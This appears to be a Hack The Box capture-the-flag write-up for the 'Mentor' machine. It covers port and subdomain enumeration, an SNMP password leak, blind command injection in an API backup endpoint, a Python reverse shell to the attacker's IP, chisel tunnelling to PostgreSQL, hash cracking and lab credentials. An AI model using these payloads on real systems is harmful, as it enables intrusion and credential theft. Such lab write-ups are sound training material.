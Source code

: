 # [Mentor](https://app.hackthebox.com/machines/mentor)

```bash
nmap -p- --min-rate 10000 10.10.11.193 -Pn  
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.193 -Pn 
```

![alt text](img/image-1.png)

Let's do port scanning for `UDP`.
```bash
nmap -p- -sU --min-rate 10000 10.10.11.193 -Pn  
```

![alt text](img/image-2.png)

While browsing web application of this target, I see that ip is resolved into `mentorquotes.htb`, that's why I add this into `/etc/hosts` file.


Let's do `subdomain enumeration` via `ffuf` command.
```bash
ffuf -u http://10.10.11.193 -H "Host: FUZZ.mentorquotes.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 18 -mc all
```

![alt text](img/image-3.png)


Let's add `api` subdomain into `/etc/hosts` file also.


Now, it's time to do `directory enumeration` for `api` subdomain via `gobuster` command.
```bash
gobuster dir -u http://api.mentorquotes.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40
```

![alt text](img/image-4.png)


While enumeration of `SNMP` via `snmpwalk` command, I see one password here.
```bash
snmpbulkwalk -v2c -c internal 10.10.11.193
```

![alt text](img/image-5.png)

Password: kj23sadkj123as0-d213


From `/docs` endpoint which is API Documentation.

![alt text](img/image-6.png)


I can see , there's valid user called `james` and his email is `james@mentorquotes.htb`.


Let's check password for this user on authentication endpoint.

![alt text](img/image-7.png)


Password worked for `james` user.

![alt text](img/image-8.png)


Let's fuzz endpoints via authenticated `james` user.


I can see `/users` endpoint after I got `JWT Token` on `Authorization` header of HTTP request.

![alt text](img/image-9.png)


Let's check do `Directory Enumeration` for `/admin` endpoint.
```bash
gobuster dir -u http://api.mentorquotes.htb/admin -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40
```

![alt text](img/image-10.png)


I found `/backup` and `/checkup` endpoints for `admin` user.

![alt text](img/image-11.png)


But for `/check` endpoint, it is not implemented yet.

![alt text](img/image-12.png)


Let's enumerate `/backup` endpoint.

I see that `POST` request for `/backup` endpoint.

![alt text](img/image-13.png)


I need to enter `path` variable and value here.

![alt text](img/image-14.png)



Let's check `Command Injection` for `path` variable.

That's `Blind Command Injection`, I will try this by send `ping` to my endpoint.

![alt text](img/image-15.png)

I can see this result from `tcpdump -i tun0`.

![alt text](img/image-16.png)


Let's add reverse shell code into here.

I choose `Python` as because, from nmap scan, I saw that this application is running through `Python Flask`.

```bash
python -c 'import os,pty,socket;s=socket.socket();s.connect((\"10.10.14.17\",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")';
```

![alt text](img/image-17.png)


Hola I got reverse shell from port `1337`.

![alt text](img/image-18.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-19.png)


I can see `user.txt`.

![alt text](img/image-20.png)



While enumeration on container, I find `db.py` file and read content of this.

![alt text](img/image-21.png)


From `hard-coded` credentials, I can access.

There I see that I can to `postgreSQL` service via `Port Forwarding`. Let's upload `chisel` into here.
```bash
python3 -m http.server --bind 10.10.14.17 8080
```
![alt text](img/image-22.png)

Then download this file via `wget` command.
```bash
wget http://10.10.14.17:8080/chisel_1.9.1_linux_amd64
```

![alt text](img/image-23.png)



Now, it's time for `Remote Port Forwarding`.

First, we need to create `tunnel`.
```bash
chisel server -p 8000 --reverse
```

![alt text](img/image-25.png)


Then, we need to connect to this channel to serve `PostgreSQL`.
```bash
./chisel_1.9.1_linux_amd64 client 10.10.14.17:8000 R:5432:172.22.0.1:5432
```

![alt text](img/image-24.png)


Let's access into `PostgreSQL` service on our machine.
```bash
psql -h 127.0.0.1 -p 5432 -U postgres
```

![alt text](img/image-26.png)


I put this hashes into [Crackstation](https://crackstation.net).

![alt text](img/image-27.png)


I found password of `svc` user.

svc: 123meunomeeivani

I read `/etc/snmp/snmpd.conf` file and `hard-coded` credential is here.

![alt text](img/image-28.png)


Maybe this password of `james` user.

james: SuperSecurePassword123__

![alt text](img/image-29.png)


While I run `sudo -l` command to check privileges of `james` user.

![alt text](img/image-30.png)


root.txt

![alt text](img/image-31.png)